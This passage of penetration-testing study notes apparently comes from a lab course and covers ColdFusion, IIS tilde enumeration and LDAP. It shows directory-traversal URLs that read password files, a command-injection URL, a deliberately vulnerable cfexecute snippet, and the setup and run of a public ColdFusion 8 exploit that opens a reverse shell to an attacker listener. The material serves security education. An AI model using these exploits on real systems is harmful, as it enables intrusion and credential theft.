






- [Attacking Miscellaneous Applications](#attacking-miscellaneous-applications)
  - [ColdFusion](#coldfusion)
    - [Enumeration](#enumeration)
    - [Attacking ColdFusion](#attacking-coldfusion)
      - [Directory Traversal](#directory-traversal)
      - [Unauthenticated RCE](#unauthenticated-rce)
  - [IIS Tilde Enumeration](#iis-tilde-enumeration)
    - [Enumeration](#enumeration-1)
      - [Tilde Enumeration using IIS ShortName Scanner](#tilde-enumeration-using-iis-shortname-scanner)
      - [Generate Wordlist](#generate-wordlist)
      - [Gobuster Enumeration](#gobuster-enumeration)
  - [LDAP](#ldap)
    - [ldapsearch](#ldapsearch)
    - [LDAP Injection](#ldap-injection)
    - [Enumeration](#enumeration-2)
  - [Web Mass Assignment](#web-mass-assignment)
    - [Exploit Mass Assignment](#exploit-mass-assignment)
    - [Prevention](#prevention)
  - [Applications Connecting to Services](#applications-connecting-to-services)
    - [ELF Executable Examination](#elf-executable-examination)

---

# Attacking Miscellaneous Applications

## ColdFusion

... is a programming language and a web app development platform based on Java.

It is used to build dynamic and interactive web apps that can be connected to various APIs and databases such as MySQL, Oracle, and Microsoft SQL Server. ColdFusion was first released in 1995 and has since evolved into a powerful and versatile platform for web dev.

ColdFusion Markup Language (_CFML_) is the proprietary programming language used in ColdFusion to develop dynamic web applications. It has a syntax similar to HTML, making it easy to learn for web devs. CFML includes tags and functions for database integration, web services, email management, and other common web development tasks. Its tag-based approach simplifies development by reducing the amount of code needed to accomplish complex tasks. For instace, the ```cfquery``` tag can execute SQL statements to retrieve data from a database:

```html
<cfquery name="myQuery" datasource="myDataSource">
  SELECT *
  FROM myTable
</cfquery>
```

Devs can the use the ```cfloop``` tag to iterate through the records retrieved from the database.

```html
<cfloop query="myQuery">
  <p>#myQuery.firstName# #myQuery.lastName#</p>
</cfloop>
```

Thanks to its built-in functions and features, CFML enables devs to create complex business logic using minimal code. Moreover, ColdFusion supports other programming languages, such as JavaScript and Java, allowing developers to user their preferred programming language within the ColdFusion environment.

ColdFusion also offers support for email, PDF manipulation, graphing, and other commonly used features. The applications developed using ColdFusion can run on any server that supports its runtime. It is available for download from Adobe's website and can be installed on Windows, Mac, or Linux OS. ColdFusion applications can also be deployed on cloud platforms like Amazon Web Services or Microsoft Azure. Some of the primary purposes and benefits of ColdFusion include:

| Benefits | Description |
| -------- | ----------- |
| Developing data-driven web applications | ColdFusion allows developers to build rich, responsive web apps easily. It offers session management, form handling, debugging, and more features. ColdFusion allows you to leverage your existing knowledge of the language and combines it with advanced features to help you build robust web apps quickly. |
| Integrating with databases | ColdFusion easily integrates with databases such as Oracle, SQL Server, and MySQL. ColdFusion provides advanced database connectivity and is designed to make it easy to retrieve, manipulate, and view data from a database and the web. |
| Simplifying web content management | One of the primary goals of ColdFusion is to streamline web content management. The platform offers dynamic HTML generation and simplifies form creation, URL retrieving, file uploading, and handling of large forms. Furthermore, ColdFusion also supports AJAX by automatically handling the serialisation and deserialisation of AJAX-enabled components. |
| Performance | ColdFusion is designed to be highly performant and is optimised for low latency and high throughput. It can handle a large number of simultaneous requests while maintaining a high level of perfomance. |
| Collaboration | ColdFusion offers features that allow developers to work together on projects in real-time. This includes code sharing, debugging, version control, and more. This allows for faster and more efficient development reduce time-to-market and quicker delivery of projects. |

Like any web-facing technology, ColdFusion has historically been vulnerable to various types of attacks, such as SQL injection, XSS, directory traversal, authentication bypass, and arbitrary file uploads. To improve the security of ColdFusion, developers must implement secure coding practices, input validation checks, and properly configure web servers and firewalls. Here are a few known vulns of ColdFusion:

1. CVE-2021-21087: Arbitrary disallow of uploading JSP source code
2. CVE-2020-24453: AD integration misconfiguration
3. CVE-2020-24450: Command injection vuln
4. CVE-2020-24449: Arbitrary file reading vuln
5. CVE-2019-15909: XSS vuln

ColdFusion exposes a fair few ports by default:

| Port Number | Protocol | Description |
| ----------- | -------- | ----------- |
| 80 | HTTP | Used for non-secure HTTP communication between the web server and web browser. |
| 443 | HTTPS | Used for secure HTTP communication between web server and web browser. Encrypts the communication between the web server and web browser. |
| 1935 | RPC | Used for client-server communication. RPC allows a program to request information from another program on a different network device. |
| 25 | SMTP | SMTP is used for sending email messages. |
| 8500 | SSL | Used for server communication via SSL. |
| 5500 | Server Monitor | Used for remote administration of the ColdFusion server. |

Default ports can be changed during installation or configuration.

### Enumeration

During a pentesting enumeration, several ways to exist to identify whether a web app uses ColdFusion. Here are some methods that can be used:

| Method | Description |
| ------ | ----------- |
| Port Scanning | ColdFusion typically uses port 80 for HTTP and port 443 for HTTPS by default. So, scanning for these ports may indicate the presence of a ColdFusion server. Nmap might be able to identify ColdFusion during a services scan specifically. |
| File Extensions | ColdFusion typically uses ```.cfm``` or ```.cfc``` file extensions. If you find pages with these file extensions, it could be an indicator that the application is using ColdFusion. |
| HTTP Headers | Check the HTTP response headers of the web application. ColdFusion typically sets specific headers, such as "Server: ColdFusion" or "X-Powered-By: ColdFusion", that can help identify the technology being used.|
| Error Message | If the app uses ColdFusion and there are errors, the error messages may contain references to ColdFusion-specific tags or functions. |
| Default Files | ColdFusion creates several default files during installation, such as "admin.cfm" or "CFIDE/administrator/index.cfm". Finding these files on the web server may indicate that the web app runs on ColdFusion. |

```bash
d41y@htb[/htb]$ nmap -p- -sC -Pn 10.129.247.30 --open

Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-13 11:45 GMT
Nmap scan report for 10.129.247.30
Host is up (0.028s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 350.38 seconds
```

The port scan results shown three open ports. Two Windows RPC services, and one running on 8500. As you know, 8500 is a default port that ColdFusion uses for SSL. Navigating to the IP:8500 lists 2 dirs, CFIDE and cfdocs, in the root, further indicating that ColdFusion is running on port 8500.

Navigating around the structures a bit shows lots of interesting info, from files with a clear .cfm extension to error messages and login pages.







The ```/CFIDE/administrator``` path, however, loads the ColdFusion 8 Administrator login page. Now you know for certain that ColdFusion 8 is running on the server.



### Attacking ColdFusion

```bash
d41y@htb[/htb]$ searchsploit adobe coldfusion

------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                            |  Path
------------------------------------------------------------------------------------------ ---------------------------------
Adobe ColdFusion - 'probe.cfm' Cross-Site Scripting                                       | cfm/webapps/36067.txt
Adobe ColdFusion - Directory Traversal                                                    | multiple/remote/14641.py
Adobe ColdFusion - Directory Traversal (Metasploit)                                       | multiple/remote/16985.rb
Adobe ColdFusion 11 - LDAP Java Object Deserialization Remode Code Execution (RCE)        | windows/remote/50781.txt
Adobe Coldfusion 11.0.03.292866 - BlazeDS Java Object Deserialization Remote Code Executi | windows/remote/43993.py
Adobe ColdFusion 2018 - Arbitrary File Upload                                             | multiple/webapps/45979.txt
Adobe ColdFusion 6/7 - User_Agent Error Page Cross-Site Scripting                         | cfm/webapps/29567.txt
Adobe ColdFusion 7 - Multiple Cross-Site Scripting Vulnerabilities                        | cfm/webapps/36172.txt
Adobe ColdFusion 8 - Remote Command Execution (RCE)                                       | cfm/webapps/50057.py
Adobe ColdFusion 9 - Administrative Authentication Bypass                                 | windows/webapps/27755.txt
Adobe ColdFusion 9 - Administrative Authentication Bypass (Metasploit)                    | multiple/remote/30210.rb
Adobe ColdFusion < 11 Update 10 - XML External Entity Injection                           | multiple/webapps/40346.py
Adobe ColdFusion APSB13-03 - Remote Multiple Vulnerabilities (Metasploit)                 | multiple/remote/24946.rb
Adobe ColdFusion Server 8.0.1 - '/administrator/enter.cfm' Query String Cross-Site Script | cfm/webapps/33170.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_authenticatewizarduser.cfm' Query Strin | cfm/webapps/33167.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_logintowizard.cfm' Query String Cross-S | cfm/webapps/33169.txt
Adobe ColdFusion Server 8.0.1 - 'administrator/logviewer/searchlog.cfm?startRow' Cross-Si | cfm/webapps/33168.txt
------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

As you know, the version of ColdFusion running is ColdFusion 8, and there are two results of interest. The Adobe ColdFusion - Directory Traversal and the Adobe ColdFusion 8 - Remote Command Execution results.

#### Directory Traversal

Directory/Path Traversal is an attack that allows an attacker to access files and directories outside of the intended directory in a web app. The attack exploits the lack of input validation in a web application and can be executed through various input fields such as URL parameters, from fields, cookies, and more. By manipulating input parameters, the attacker can traverse the directory structure of the web app and access sensitive files, including configuration files, user data, and other system files. The attack can be executed by manipulating the input parameters in ColdFusion tags such as CFFile and CFDIRECTORY, which are used for file and directory operations such as uploading, downloading, and listing files.

Take the following ColdFusion code snippet:

```html
<cfdirectory directory="#ExpandPath('uploads/')#" name="fileList">
<cfloop query="fileList">
    <a href="uploads/#fileList.name#">#fileList.name#</a><br>
</cfloop>
```

In this code snippet, the ColdFusion cfdirectory tag lists the contents of the uploads directory, and the cfloop tag is used to loop through the query results and display the filenames as clickable links in HTML.

However, the directory parameter is not validated correctly, which makes the application vulnerable to a Path Traversal attack. An attacker can exploit this vuln by manipulating the directory parameter to access files outside the uploads directory.

```
http://example.com/index.cfm?directory=../../../etc/&file=passwd
```

In this example, the ```../``` sequence is used to navigate the directory tree and access the ```/etc/passwd``` file outside the intended location.

CVE-2010-2861 is the Adobe ColdFusion - Directory Traversal exploit discovered by searchsploit. It is a vuln in ColdFusion that allows an attacker to conduct path traversal attacks.

- CFIDE/administrator/settings/mappings.cfm
- logging/settings.cfm
- datasources/index.cfm
- j2eepackaging/editarchive.cfm
- CFIDE/administrator/enter.cfm

These ColdFusion files are vulnerable to a directory traversal attack in Adobe ColdFusion 9.0.1 and earlier versions. Remote attackers can exploit this vuln to read arbitrary files by manipulating the locale parameter in these specific ColdFusion files.

With this vuln, attackers can access files outside the intended directory by including ```../``` sequences in the file parameter. For exmaple, consider the following URL:

```
http://www.example.com/CFIDE/administrator/settings/mappings.cfm?locale=en
```

In this example, the URL attempts to access the mappings.cfm file in the /CFIDE/administrator/settings/ directory of the web application with a specified en locale. However, a directory traversal can be executed by manipulating the URL's locale parameter, allowing an attacker to read arbitrary files located outside of the intended directory, such as configuration files or system files.

```
http://www.example.com/CFIDE/administrator/settings/mappings.cfm?locale=../../../../../etc/passwd
```

In this example, the ```../``` sequences have been used to replace a valid locale to traverse the directory structure and access the passwd file located in the ```/etc/``` directory.

Using searchsploit, copy the exploit to a working directory and then execute the file to see what arguments it requires.

```bash
d41y@htb[/htb]$ searchsploit -p 14641

  Exploit: Adobe ColdFusion - Directory Traversal
      URL: https://www.exploit-db.com/exploits/14641
     Path: /usr/share/exploitdb/exploits/multiple/remote/14641.py
File Type: Python script, ASCII text executable

Copied EDB-ID #14641's path to the clipboard

d41y@htb[/htb]$ cp /usr/share/exploitdb/exploits/multiple/remote/14641.py .
d41y@htb[/htb]$ python2 14641.py 

usage: 14641.py <host> <port> <file_path>
example: 14641.py localhost 80 ../../../../../../../lib/password.properties
if successful, the file will be printed
```

The password.properties file in ColdFusion is a configuration file that securely stores encrypted passwords for various services and resources the ColdFusion server uses. It contains a list of key-value pairs, where the key represents the resource name and the value is the encrypted password. These encrypted passwords are used for services like database connections, mail servers, LDAP servers, and other resources that require authentication. By storing encrypted passwords in this file, ColdFusion can automatically retrieve them and use them to authenticate with the respective services without requiring the manual entry of passwords each time. The file is usually in the ```[cf_root]/lib``` directory and can be managed through the ColdFusion Administrator.

By providing the correct parameters to the exploit script and specifying the path of the desired file, the script can trigger an exploit on the vulnerable endpoints mentioned above. The script will then output the result of the exploit attempt:

```bash
d41y@htb[/htb]$ python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"

------------------------------
trying /CFIDE/wizards/common/_logintowizard.cfm
title from server in /CFIDE/wizards/common/_logintowizard.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
------------------------------
...
```

As you can see, the contents of the password.properties file have been retrieved, proving that this target is vulnerable to CVE-2010-2861.

#### Unauthenticated RCE

In the context of ColdFusion web applications, an unauthenticated RCE attack occurs when an attacker can execute arbitrary code on the server without requiring any authentication. This can happen when a web application allows the execution of arbitrary code through a feature or function that does not require authentication, such as a debugging console or a file upload functionality. Take the following code:

```html
<cfset cmd = "#cgi.query_string#">
<cfexecute name="cmd.exe" arguments="/c #cmd#" timeout="5">
```

In the above code, the cmd variable is created by concatenating the cgi.query_string variable with a command to be executed. This command is then executed using the cfexecute function, which runs the Windows cmd.exe program with the specified arguments. This code is vulnerable to an unauthenticated RCE attack because it does not properly validate the cmd variable before executing it, nor does it require the user to be authenticated. An attacker could simply pass a malicious command as the cgi.query_string variable, and it would be executed by the server.

```
# Decoded: http://www.example.com/index.cfm?; echo "This server has been compromised!" > C:\compromise.txt

http://www.example.com/index.cfm?%3B%20echo%20%22This%20server%20has%20been%20compromised%21%22%20%3E%20C%3A%5Ccompromise.txt
```

This URL includes a semicolon at the beginning of the query string, which can allow for the execution of multiple commands on the server. This could potentially append legitimate functionality with an unintended command. The included echo command prints a message to the console, and is followed by a redirection command to write a file to the ```C:``` directory with a message indicating that the server has been compromised.

An example of a ColdFusion unauthenticated RCE attack is the CVE-2009-2265 vuln that affected Adobe ColdFusion versions 8.0.1 and earlier. This exploit allowed unauthenticated users to upload files and gain remote code execution on the target host. The vuln exists in the FCKeditor package, and is accessible on the following path:

```
http://www.example.com/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=
```

CVE-2009-2265 is the vuln identified by your earlier searchsploit search as Adobe ColdFusion 8 - RCE. Pull it into a working directory.

```bash
d41y@htb[/htb]$ searchsploit -p 50057

  Exploit: Adobe ColdFusion 8 - Remote Command Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50057
     Path: /usr/share/exploitdb/exploits/cfm/webapps/50057.py
File Type: Python script, ASCII text executable

Copied EDB-ID #50057's path to the clipboard

d41y@htb[/htb]$ cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py .
```

A quick cat review of the code indicates that the script needs some information. Set the correct information and launch the exploit.

```python
if __name__ == '__main__':
    # Define some information
    lhost = '10.10.14.55' # HTB VPN IP
    lport = 4444 # A port not in use on localhost
    rhost = "10.129.247.30" # Target IP
    rport = 8500 # Target Port
    filename = uuid.uuid4().hex
```

The exploit will take a bit of time to launch, but it eventually will return a functional remote shell.

```bash
d41y@htb[/htb]$ python3 50057.py 

Generating a payload...
Payload size: 1497 bytes
Saved as: 1269fd7bd2b341fab6751ec31bbfb610.jsp

Priting request...
Content-type: multipart/form-data; boundary=77c732cb2f394ea79c71d42d50274368
Content-length: 1698

--77c732cb2f394ea79c71d42d50274368

<SNIP>

--77c732cb2f394ea79c71d42d50274368--


Sending request and printing response...


		<script type="text/javascript">
			window.parent.OnUploadCompleted( 0, "/userfiles/file/1269fd7bd2b341fab6751ec31bbfb610.jsp/1269fd7bd2b341fab6751ec31bbfb610.txt", "1269fd7bd2b341fab6751ec31bbfb610.txt", "0" );
		</script>
	

Printing some information for debugging...
lhost: 10.10.14.55
lport: 4444
rhost: 10.129.247.30
rport: 8500
payload: 1269fd7bd2b341fab6751ec31bbfb610.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.247.30.
Ncat: Connection from 10.129.247.30:49866.
```

Reverse shell:

```
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C03-76A8

 Directory of C:\ColdFusion8\runtime\bin

22/03/2017  08:53 ��    <DIR>          .
22/03/2017  08:53 ��    <DIR>          ..
18/03/2008  11:11 ��            64.512 java2wsdl.exe
19/01/2008  09:59 ��         2.629.632 jikes.exe
18/03/2008  11:11 ��            64.512 jrun.exe
18/03/2008  11:11 ��            71.680 jrunsvc.exe
18/03/2008  11:11 ��             5.120 jrunsvcmsg.dll
18/03/2008  11:11 ��            64.512 jspc.exe
22/03/2017  08:53 ��             1.804 jvm.config
18/03/2008  11:11 ��            64.512 migrate.exe
18/03/2008  11:11 ��            34.816 portscan.dll
18/03/2008  11:11 ��            64.512 sniffer.exe
18/03/2008  11:11 ��            78.848 WindowsLogin.dll
18/03/2008  11:11 ��            64.512 wsconfig.exe
22/03/2017  08:53 ��             1.013 wsconfig_jvm.config
18/03/2008  11:11 ��            64.512 wsdl2java.exe
18/03/2008  11:11 ��            64.512 xmlscript.exe
              15 File(s)      3.339.009 bytes
               2 Dir(s)   1.432.776.704 bytes free
```

## IIS Tilde Enumeration

IIS tilde directory enumeration is a technique utilised to uncover hidden files, directories, and short file names on some versions of Microsoft Internet Information Services web servers. This method takes advantage of a specific vuln in IIS, resulting from how it manages short file names within its directories.

When a file or folder is created on an IIS server, Windows generates a short file name in the 8.3 format, consisting of eight chars for the file name, a period, and three chars for the extension. Intriguingly, these short file names can grant access to their corresponding files and folders, even if they were meant to be hidden or inaccessible.

The tilde char, followed by a sequence number, signifies a short file name in a URL. Hence, if someone determines a file or folder's short file name, they can exploit the tilde char and the short file name in the URL to access sensitive data or hidden resources.

IIS tilde directory enumeration primarily involves sending HTTP requests to the server with distinct char combinations in the URL to identify valid short file names. Once a valid short file name is detected, this information can be utilised to access the relevant resource or further enumerate the directory structure.

The enumeration process starts by sending requests with various chars following the tilde:

```
http://example.com/~a
http://example.com/~b
http://example.com/~c
...
```

Assume the server contains a hidden directory named SecretDocuments. When a request is sent to ```http://example.com/~s```, the server replies with a ```200 OK``` status code, revealing a directory with a short name beginning with "s". The enumeration process continues by appending more chars:

```
http://example.com/~se
http://example.com/~sf
http://example.com/~sg
...
```

For the request ```http://example.com/~se```, the server returns a ```200 OK``` status code, further refining the short name to be "se". Further requests are sent such as:

```
http://example.com/~sec
http://example.com/~sed
http://example.com/~see
...
```

The server delivers a ```200 OK``` status code for the request ```http://example.com/~sec```, further narrowing the short name to "sec".

Continuing this procedure, the short name ```secret~1``` is eventually discovered when the server returns a ```200 OK``` status code for the request ```http://example.com/~secret```.

Once the short name is identified, enumeration of specific file names within that path can be performed, potentially exposing sensitive documents.

For instance, if the short name ```secret~1``` is determined for the concealed directory SecretDocuments, files in that dir can be accessed by submitting requests such as:

```
http://example.com/secret~1/somefile.txt
http://example.com/secret~1/anotherfile.docx
```

The same IIS tilde directory enumeration technique can also detect 8.3 short file names for files within the directory. After obtaining the short names, those files can be directly accessed using the short names in the requests.

```
http://example.com/secret~1/somefi~1.txt
```

In 8.3 short file names, such as ```somefi~1.txt```, the number "1" is a unique identifier that distinguishes files with similar names within the same directory. The numbers following the tilde assist the file system in differentiating between files that share similarities in their names, ensuring each file has a distinct 8.3 short file name.

For example, if two files named somefile.txt and somefile1.txt exist in the same directory, their 8.3 short file names would be:

- somefi~1.txt for somefile.txt
- somefi~2.txt for somefile1.txt

### Enumeration

The initial phase involves mapping the target and determining which services are operating on their respective ports.

```bash
d41y@htb[/htb]$ nmap -p- -sV -sC --open 10.129.224.91

Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-14 19:44 GMT
Nmap scan report for 10.129.224.91
Host is up (0.011s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.38 seconds
```

IIS 7.5 is running on port 80. Executing a tilde enumeration attack on this version could be a viable option.

#### Tilde Enumeration using IIS ShortName Scanner

Manually sending HTTP requests for each letter of the alphabet can be a tedious process. Fortunately, there is a tool called [IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner) that can automate this task. To use it, you will need to install Oracle Java.

When you run the below command, it will prompt you for a proxy, just hit enter for "No".

```bash
d41y@htb[/htb]$ java -jar iis_shortname_scanner.jar 0 5 http://10.129.204.231/

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Do you want to use proxy [Y=Yes, Anything Else=No]? 
# IIS Short Name (8.3) Scanner version 2023.0 - scan initiated 2023/03/23 15:06:57
Target: http://10.129.204.231/
|_ Result: Vulnerable!
|_ Used HTTP method: OPTIONS
|_ Suffix (magic part): /~1/
|_ Extra information:
  |_ Number of sent requests: 553
  |_ Identified directories: 2
    |_ ASPNET~1
    |_ UPLOAD~1
  |_ Identified files: 3
    |_ CSASPX~1.CS
      |_ Actual extension = .CS
    |_ CSASPX~1.CS??
    |_ TRANSF~1.ASP
```

Upon executing the tool, it discovers 2 dirs and 3 files. However, the target does not permit GET access to ```http://10.129.204.231/TRANSF~1.ASP```, necessitating the brute-forcing of the remaining filename.

#### Generate Wordlist

```bash
d41y@htb[/htb]$ egrep -r ^transf /usr/share/wordlists/* | sed 's/^[^:]*://' > /tmp/list.txt
```

This command combines egrep and sed to filter and modify the contents of input files, then save the results to a new file.

| Command Part | Description |
| ------------ | ----------- |
| ```egrep -r ^transf``` | The ```egrep``` command is used to search for lines containing a specific pattern in the input files. The ```-r``` flag indicates a recursive search through dirs. The ```^transf``` pattern matches any line that starts with "transf". The output of this command will be lines that begin with "transf" along with their source file names. |
| ```sed 's/ ^[^:]*://'``` | The ```sed``` command is used to perform a find-and-replace operation on its input. The ```'s/ ^[^:]*://'``` expression tells sed to find any sequence of chars at the beginning of a line up to the first colon, and replace them with nothing. The result will be the lines starting with "transf" but without the file names and colons. |

#### Gobuster Enumeration

Once you have created the custom wordlist, you can use gobuster to enumerate all items in the target.

```bash
d41y@htb[/htb]$ gobuster dir -u http://10.129.204.231/ -w /tmp/list.txt -x .aspx,.asp

===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.204.231/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /tmp/list.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              asp,aspx
[+] Timeout:                 10s
===============================================================
2023/03/23 15:14:05 Starting gobuster in directory enumeration mode
===============================================================
/transf**.aspx        (Status: 200) [Size: 941]
Progress: 306 / 309 (99.03%)
===============================================================
2023/03/23 15:14:11 Finished
===============================================================
```

From the redacted output, you can see that Gobuster has successfully identified an .aspx file as the full filename corresponding to the previously discovered short name TRANS~1.ASP.

## LDAP

LDAP (_Lightweight Directory Access Protocol_) is a protocol used to access and manage directory information. A directory is a hierarchical data store that contains information about network resources such as users, groups, computers, printers, and other devices. LDAP provides some excellent funtionality:

| Functionality | Description |
| ------------- | ----------- |
| Efficient | Efficient and fast queries and connections to directory services, thanks to its lean query language and non-normalised data storage. |
| Global naming model | Supports multiple independent directories with a global naming model that ensures unique entries. |
| Extensible and flexible | This helps to meet future and local requirements by allowing custom attributes and schemas. |
| Compatibility | It is compatible with many software products and platforms as it runs over TCP/IP and SSL directly, and it is platform-independent, suitable for use in heterogeneous environments with various OS. |
| Authentication | It provides authentication mechanisms that enable users to sign on once and access multiple resources on the server securely. |

However, it suffers some significant issues:

| Functionality | Description |
| ------------- | ----------- |
| Compliance | Directory servers must be LDAP compliant for service to be deployed, which may limit the choice of vendors and products. |
| Complexity | Difficult to use and understand for many developers and administrators, who may not know how to configure LDAP clients correctly or use it securely. |
| Encryption | LDAP does not encrypt its traffic by default, which exposes sensitive data to potential eavesdropping and tampering. LDAPS or StartTLS must be used to enable encryption. |
| Injection | Vulnerable to LDAP injection attacks, where malicious users can manipulate LDAP queries and gain unauthorised access to data or resources. To prevent such attacks, input validation and output encoding must be implemented. |

